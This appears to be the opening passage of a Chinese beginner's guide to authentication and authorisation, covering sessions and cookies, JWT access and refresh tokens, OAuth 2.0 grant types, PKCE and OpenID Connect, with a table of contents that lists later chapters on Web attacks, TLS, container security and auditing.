# 认证授权与安全

> 📖 本篇是学习指南的第十三篇，面向完全不懂安全的初学者，从零开始讲解认证、授权、密码安全、Web 安全攻防、容器安全等方方面面。
> 阅读本篇后，你将理解：系统如何验证用户身份、如何控制访问权限、如何防范常见的网络攻击，以及 AI-CLI-Mobile 项目中的安全实践。

---

## 目录

- [第一章：认证基础](#第一章认证基础)
  - [1.1 认证 vs 授权 vs 鉴权](#11-认证-vs-授权-vs-鉴权)
  - [1.2 Session-Cookie 认证](#12-session-cookie-认证)
  - [1.3 Token 认证](#13-token-认证)
  - [1.4 Session-Cookie vs Token 对比](#14-session-cookie-vs-token-对比)
  - [1.5 OAuth 2.0 四种授权模式](#15-oauth-20-四种授权模式)
  - [1.6 OpenID Connect](#16-openid-connect)
  - [1.7 项目中的认证架构](#17-项目中的认证架构)
- [第二章：JWT 深度解析](#第二章jwt-深度解析)
  - [2.1 JWT 是什么](#21-jwt-是什么)
  - [2.2 JWT 的三段式结构](#22-jwt-的三段式结构)
  - [2.3 签名算法对比](#23-签名算法对比)
  - [2.4 JWT 安全风险](#24-jwt-安全风险)
  - [2.5 JWT 最佳实践](#25-jwt-最佳实践)
  - [2.6 项目中的 JWT 实现逐行分析](#26-项目中的-jwt-实现逐行分析)
- [第三章：密码安全](#第三章密码安全)
  - [3.1 为什么不能明文存储密码](#31-为什么不能明文存储密码)
  - [3.2 哈希算法对比](#32-哈希算法对比)
  - [3.3 bcrypt 工作原理](#33-bcrypt-工作原理)
  - [3.4 盐值（Salt）的作用](#34-盐值salt的作用)
  - [3.5 项目中的密码处理](#35-项目中的密码处理)
- [第四章：访问控制](#第四章访问控制)
  - [4.1 什么是访问控制](#41-什么是访问控制)
  - [4.2 RBAC 基于角色的访问控制](#42-rbac-基于角色的访问控制)
  - [4.3 ABAC 基于属性的访问控制](#43-abac-基于属性的访问控制)
  - [4.4 访问控制模型对比](#44-访问控制模型对比)
  - [4.5 项目中的权限校验](#45-项目中的权限校验)
- [第五章：Web 安全攻防](#第五章web-安全攻防)
  - [5.1 XSS 攻击](#51-xss-攻击)
  - [5.2 CSRF 攻击](#52-csrf-攻击)
  - [5.3 SQL 注入](#53-sql-注入)
  - [5.4 SSRF 攻击](#54-ssrf-攻击)
  - [5.5 路径遍历攻击](#55-路径遍历攻击)
  - [5.6 项目中的路径遍历防御](#56-项目中的路径遍历防御)
- [第六章：传输安全](#第六章传输安全)
  - [6.1 TLS/HTTPS 基础](#61-tlshttps-基础)
  - [6.2 TLS 握手过程](#62-tls-握手过程)
  - [6.3 HSTS](#63-hsts)
  - [6.4 证书管理](#64-证书管理)
  - [6.5 WSS（WebSocket Secure）](#65-wsswebsocket-secure)
- [第七章：容器安全](#第七章容器安全)
  - [7.1 容器安全概览](#71-容器安全概览)
  - [7.2 Docker 安全最佳实践](#72-docker-安全最佳实践)
  - [7.3 Seccomp 配置](#73-seccomp-配置)
  - [7.4 Linux Capabilities](#74-linux-capabilities)
  - [7.5 非 root 用户运行](#75-非-root-用户运行)
  - [7.6 项目中的 Docker 安全配置](#76-项目中的-docker-安全配置)
- [第八章：安全审计](#第八章安全审计)
  - [8.1 审计日志的重要性](#81-审计日志的重要性)
  - [8.2 审计日志设计](#82-审计日志设计)
  - [8.3 项目中的审计系统](#83-项目中的审计系统)
  - [8.4 安全事件响应](#84-安全事件响应)
  - [8.5 合规性考虑](#85-合规性考虑)

---

# 第一章：认证基础

## 1.1 认证 vs 授权 vs 鉴权

在安全领域，有三个经常被混淆的概念：认证（Authentication）、授权（Authorization）和鉴权。它们虽然听起来相似，但含义完全不同。

### 生活中的类比

想象你要进入一个高档办公大楼：

- **认证（Authentication）**：前台保安问你"你是谁？"，你出示身份证，保安核实你的身份。**认证 = 证明你是谁。**
- **授权（Authorization）**：保安确认你的身份后，查看系统说"你只能去 3 楼和 5 楼"。**授权 = 决定你能做什么。**
- **鉴权**：鉴权是一个更宽泛的术语，通常指"验证权限"的过程，可以包含认证和授权两个环节。

### Mermaid 对比图



### 详细对比表

| 维度 | 认证（Authentication） | 授权（Authorization） | 鉴权 |
|------|----------------------|---------------------|------|
| **核心问题** | 你是谁？ | 你能做什么？ | 你有没有权限？ |
| **英文缩写** | AuthN | AuthZ | — |
| **发生顺序** | 先发生 | 后发生 | 包含两者 |
| **输入** | 用户名/密码、Token、生物识别 | 用户身份 + 资源 + 操作 | 请求 + 凭证 |
| **输出** | 用户身份对象 | 允许/拒绝 | 允许/拒绝 |
| **失败结果** | 401 Unauthorized | 403 Forbidden | 401 或 403 |
| **典型技术** | JWT、Session、OAuth | RBAC、ABAC、ACL | 综合实现 |
| **类比** | 出示身份证 | 查看门禁权限 | 过安检 |

### HTTP 状态码的区别



> 💡 **初学者常见误区**：401 和 403 经常被搞混。记住：401 = "我不认识你"（认证失败），403 = "我认识你，但你不能进"（授权失败）。

## 1.2 Session-Cookie 认证

Session-Cookie 是最传统的 Web 认证方式，几乎所有的 Web 框架都原生支持。

### 工作流程



### Session 存储方案对比

| 存储方案 | 优点 | 缺点 | 适用场景 |
|---------|------|------|---------|
| **内存** | 最快，零延迟 | 重启丢失，不支持多机 | 开发环境 |
| **Redis** | 快速，支持 TTL，支持集群 | 需要额外服务 | 生产环境首选 |
| **数据库** | 持久化，查询灵活 | 较慢，需要清理 | 需要审计的场景 |
| **Memcached** | 快速，自动过期 | 不持久化，功能简单 | 简单缓存场景 |

### Cookie 的关键属性

```javascript
// 设置安全的 Cookie
response.setHeader('Set-Cookie', [
  'session_id=abc123',
  'Path=/',                // Cookie 的作用路径
  'HttpOnly',              // 禁止 JavaScript 访问（防 XSS）
  'Secure',                // 仅通过 HTTPS 传输
  'SameSite=Strict',       // 防止 CSRF
  'Max-Age=3600',          // 1 小时后过期
].join('; '))
```

| 属性 | 作用 | 安全影响 |
|------|------|---------|
| `HttpOnly` | 禁止 JS 通过 `document.cookie` 读取 | 防止 XSS 窃取 Cookie |
| `Secure` | 仅在 HTTPS 连接中发送 | 防止中间人窃取 |
| `SameSite` | 限制跨站请求携带 Cookie | 防止 CSRF 攻击 |
| `Path` | 限制 Cookie 的作用路径 | 缩小攻击面 |
| `Domain` | 限制 Cookie 的作用域名 | 防止子域劫持 |
| `Max-Age/Expires` | 设置过期时间 | 限制会话生命周期 |

### Session-Cookie 的优缺点



## 1.3 Token 认证

Token 认证是现代 Web 和移动应用的主流方案，它不需要服务器存储会话状态，因此也被称为"无状态认证"。

### 工作流程



### Token vs Session 的关键区别

```mermaid
graph TB
    subgraph Session方式["Session-Cookie 方式"]
        S1["用户登录"] --> S2["服务器创建 Session"]
        S2 --> S3["Session 存入 Redis/DB"]
        S3 --> S4["返回 Session ID 给浏览器"]
        S4 --> S5["后续请求：查 Session 存储"]
    end

    subgraph Token方式["Token 方式"]
        T1["用户登录"] --> T2["服务器生成 JWT"]
        T2 --> T3["不需要存储！"]
        T3 --> T4["返回 Token 给客户端"]
        T4 --> T5["后续请求：验证签名即可"]
    end

    style Session方式 fill:#e3f2fd,stroke:#1565c0
    style Token方式 fill:#e8f5e9,stroke:#2e7d32
```

### Access Token + Refresh Token 双令牌机制

为什么需要两个 Token？这是一个非常好的设计模式：



**为什么这样设计？**

1. **安全性**：Access Token 有效期短（15分钟），即使泄露，攻击窗口很小
2. **用户体验**：用户不需要每 15 分钟重新登录，Refresh Token 静默续期
3. **可控性**：服务端可以撤销 Refresh Token（加入黑名单），从而终止会话
4. **职责分离**：Access Token 用于身份验证，Refresh Token 用于会话管理

## 1.4 Session-Cookie vs Token 对比

| 维度 | Session-Cookie | Token（JWT） |
|------|---------------|-------------|
| **存储位置** | 服务器（Redis/DB） | 客户端（LocalStorage/Cookie） |
| **状态** | 有状态 | 无状态 |
| **跨域** | 困难（受 Cookie 同源限制） | 容易（Header 传递） |
| **移动端** | 需要特殊处理 | 原生支持 |
| **CSRF** | 容易受攻击 | 天然免疫 |
| **XSS** | HttpOnly 可防护 | 需要额外防护 |
| **服务器压力** | 需要查询存储 | 仅需验证签名 |
| **水平扩展** | 需要共享 Session | 天然支持 |
| **即时撤销** | 容易（删除 Session） | 困难（需要黑名单） |
| **性能** | 每次查存储 | 本地验证签名 |
| **适用场景** | 传统 Web 应用 | SPA、移动端、微服务 |



## 1.5 OAuth 2.0 四种授权模式

OAuth 2.0 是一个**授权框架**，允许第三方应用在用户授权下访问用户的资源，而不需要用户提供密码。

### 生活类比

你去酒店住宿：

- **你** = 资源所有者（Resource Owner）
- **酒店房卡** = 访问令牌（Access Token）
- **前台** = 授权服务器（Authorization Server）
- **酒店房间** = 受保护资源（Protected Resource）
- **第三方清洁服务** = 客户端应用（Client Application）

你（资源所有者）授权清洁服务（客户端）用房卡（Token）进入你的房间（资源），而不是把你的身份证（密码）给清洁工。

### 四种授权模式

```mermaid
graph TB
    subgraph 模式1["1. 授权码模式（Authorization Code）"]
        direction TB
        A1["最安全的模式"]
        A2["适用于：有后端的 Web 应用"]
        A3["流程：用户授权 → 获取授权码 → 换取 Token"]
    end

    subgraph 模式2["2. 隐式模式（Implicit）"]
        direction TB
        B1["已不推荐使用"]
        B2["适用于：纯前端 SPA"]
        B3["流程：用户授权 → 直接获取 Token"]
    end

    subgraph 模式3["3. 密码模式（Resource Owner Password）"]
        direction TB
        C1["仅限高度信任的应用"]
        C2["适用于：自家 APP"]
        C3["流程：直接用用户名密码换 Token"]
    end

    subgraph 模式4["4. 客户端凭证模式（Client Credentials）"]
        direction TB
        D1["无用户参与"]
        D2["适用于：服务间调用"]
        D3["流程：用 Client ID/Secret 换 Token"]
    end

    style 模式1 fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px
    style 模式2 fill:#ffebee,stroke:#c62828
    style 模式3 fill:#fff3e0,stroke:#e65100
    style 模式4 fill:#e3f2fd,stroke:#1565c0
```

### 授权码模式详解（最常用）



### OAuth 2.0 四种模式对比

| 维度 | 授权码模式 | 隐式模式 | 密码模式 | 客户端凭证 |
|------|-----------|---------|---------|-----------|
| **安全性** | ⭐⭐⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐ |
| **有无后端** | 需要 | 不需要 | 不需要 | 需要 |
| **用户参与** | 是 | 是 | 是 | 否 |
| **Refresh Token** | ✅ 支持 | ❌ 不支持 | ✅ 支持 | ❌ 不需要 |
| **适用场景** | Web 应用 | 纯前端 SPA | 自家 APP | 服务间调用 |
| **推荐度** | ⭐⭐⭐⭐⭐ | ❌ 已弃用 | ⭐⭐ | ⭐⭐⭐⭐ |

> ⚠️ **安全提示**：隐式模式因为 Token 直接暴露在 URL 中，已被 OAuth 2.1 草案废弃。新的 SPA 应用应使用授权码模式 + PKCE。

### PKCE（Proof Key for Code Exchange）

PKCE 是授权码模式的增强版，专门为无法安全存储 `client_secret` 的公共客户端（如移动 APP、SPA）设计。



**为什么 PKCE 更安全？** 即使攻击者截获了授权码，没有 `code_verifier` 也无法换取 Token。

## 1.6 OpenID Connect

OpenID Connect（OIDC）是建立在 OAuth 2.0 之上的**身份认证层**。

### OAuth 2.0 vs OpenID Connect



| 维度 | OAuth 2.0 | OpenID Connect |
|------|-----------|---------------|
| **目的** | 授权（Authorization） | 认证（Authentication） |
| **核心产物** | Access Token | ID Token + Access Token |
| **ID Token** | ❌ 没有 | ✅ JWT 格式的身份令牌 |
| **UserInfo 端点** | ❌ 没有 | ✅ 标准化的用户信息接口 |
| **发现机制** | ❌ 没有 | ✅ `.well-known/openid-configuration` |
| **典型用例** | 第三方登录、API 授权 | 单点登录（SSO）、身份验证 |

### ID Token 的结构

ID Token 是一个 JWT，包含用户的身份信息：

```json
{
  "iss": "https://auth.example.com",
  "sub": "user123",
  "aud": "client_id_abc",
  "exp": 1703280000,
  "iat": 1703276400,
  "nonce": "random-nonce-value",
  "name": "张三",
  "email": "zhangsan@example.com",
  "picture": "https://example.com/avatar.jpg"
}
```

## 1.7 项目中的认证架构

AI-CLI-Mobile 项目采用 **JWT Token 认证**，使用 Access Token + Refresh Token 双令牌机制。



### 认证流程详解

